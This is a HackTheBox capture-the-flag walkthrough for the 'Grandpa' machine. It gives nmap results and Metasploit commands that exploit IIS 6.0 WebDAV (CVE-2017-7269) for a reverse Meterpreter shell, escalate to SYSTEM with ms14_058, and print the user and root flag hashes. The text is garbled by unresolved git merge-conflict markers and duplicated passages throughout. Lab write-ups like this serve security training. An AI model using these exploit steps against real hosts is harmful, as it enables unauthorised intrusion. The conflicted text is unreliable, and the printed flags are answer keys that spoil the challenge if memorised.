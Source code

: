 # HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```

![nmap](img/nmap.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![nmap](img/nmap.png)
>>>>>>> bbca5bf (Update README.md)
=======
![nmap](img/nmap.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)

<<<<<<< HEAD
<<<<<<< HEAD
<<<<<<< HEAD
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)
>>>>>>> 9f1f476 (Add files via upload)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> bbca5bf (Update README.md)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```

=======
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)

=======

> Meterpreter session opened.

---
>>>>>>> 9f1f476 (Add files via upload)
=======
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)
>>>>>>> bbca5bf (Update README.md)
=======
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```

![migrate](img/migrate.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![migrate](img/migrate.png)
>>>>>>> bbca5bf (Update README.md)
=======
![migrate](img/migrate.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![recon](img/recon.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![recon](img/recon.png)
>>>>>>> bbca5bf (Update README.md)
=======
![recon](img/recon.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```

![root](img/root.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![root](img/root.png)
>>>>>>> bbca5bf (Update README.md)
=======
![root](img/root.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```

![userflag](img/userflag.png)
=======

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![userflag](img/userflag.png)
>>>>>>> bbca5bf (Update README.md)
=======
![userflag](img/userflag.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```

![rootflag](img/rootflag.png)
=======

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![rootflag](img/rootflag.png)
>>>>>>> bbca5bf (Update README.md)
=======
![rootflag](img/rootflag.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

---
